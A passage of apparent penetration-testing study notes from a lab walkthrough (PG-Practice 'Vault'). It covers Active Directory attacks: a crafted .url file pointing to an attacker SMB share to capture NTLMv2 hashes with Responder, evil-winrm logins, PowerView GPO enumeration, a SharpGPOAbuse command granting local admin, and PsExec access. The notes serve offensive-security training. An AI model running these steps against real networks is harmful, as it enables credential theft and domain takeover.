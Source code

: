 - If we have **SeImpersonatePrivilege**, run JuicyPotato or RottenPotato attacks.

- If you find username with first name: last name combo in any service, try to enumerate for these users by the format first character of first name and last name, eg: fergus:smith -> fsmith.

- Always try finding credentials, default of stored credentials, enumerate the services with these creds and pivot. If we get exploit with no auth that comes first priority, else just enumerate services like ftp, http, smb for juicy informations.

## External Knowledge
- From S1RENS video on AD, where we can dump username and their NTLMv2 hash if we have upload permission on an smb server.
- Youtube: [Dumping Hash w/ Responder - Vault Walkthrough with S1REN - (PG-Practice) (Hack-A-Thon)](https://www.youtube.com/watch?v=JocbrhLXuss&t=3240s)
- This is carried out by crafting a url file, with the Contents:
```
[InternetShortcut]
URL=anything
WorkingDirectory=anything
IconFile=\\<smb ip>\%USERNAME%.icon
IconIndex=1
```
- Run responder on the interface tun0
```
responder -I tun0 -v
```
- After that upload the filename.url file into the smb server, and see the output of the responder.

- Another key take away from the video is the use of Evil-WinRM if we are able to get any credentials of a user in the AD.
```
evil-winrm -i $IP -u $username -p $passwd
```
- After getting a shell onto the box, run the basic command ``whoami /priv`` which is equivalent to ``sudo -l`` in linux.
- Also run ``whoami /groups``
- Reference: [PrivEsc w/ SharpGPOAbuse - Vault Walkthrough with S1REN - (PG-Practice) (Hack-A-Thon)](https://www.youtube.com/watch?v=JocbrhLXuss&t=3995)
- If we see most of the Privilege is enabled we can use PowerView.
- For PrivEsc we use **powerview.ps1** inorder to get the Group Policy of the Domain  
```
Get-GPO -Name "Default Domain Policy"
```
- From that grab the SID number and check if the GpoStatus if **AllSettingsEnabled**
- Now use this data to Get the GPO permissions of a user.
```
Get-GPPermission -Guid $SID -TargetType User -TargetName $username
```
- Check the permissions from the output and if it is **GpoEditDeleteModifySecurity** we can abuse it using [SharpGPOAbuse](https://github.com/FSecureLABS/SharpGPOAbuse)

- Execute the executable on the victim machine
```
.\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount $username --GPOName "Default Domain Policy"
```
- But if we check the net user on the username we wont have Admin privileges yet, for that we have to do ``gpupdate /force``
- Now if you check ``net user $username`` we can see we are **Administrator** in the box.
- Now PsExec into the box using the credentials of the username
```
PsExec.py $domain/$username:$password@$IP
```
- Run ``whoami``